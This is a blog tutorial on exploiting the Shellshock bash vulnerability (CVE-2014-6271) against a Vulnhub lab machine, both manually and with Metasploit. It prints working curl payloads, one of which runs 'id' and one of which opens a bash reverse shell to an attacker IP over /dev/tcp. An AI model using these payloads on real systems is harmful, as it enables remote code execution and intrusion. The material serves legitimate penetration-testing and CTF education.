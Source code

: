 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author: madhavmehndiratta
paginate: false
keywords: shellshock, exploit shellshock manually, how to exploit shellshock vulnerability, shellshock vulnerability, exploit shellshock using metasploit, infosecarticles
---
```

<p align="justify"> One of the most critical bugs that came out in the last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">
</center>

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/" rel=”nofollow”>"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<center><br>
<img src="/assets/img/uploads/shellshock/nikto.png">
</center>

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of the current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<center>
<img src="/assets/img/uploads/shellshock/shell.png">
</center>

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT = curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-search.png">
</center>

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-options.png">
</center>
<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to the IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/msf-exploit.png">
</center>
<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet" rel=”nofollow”>Zet Aboard.</a>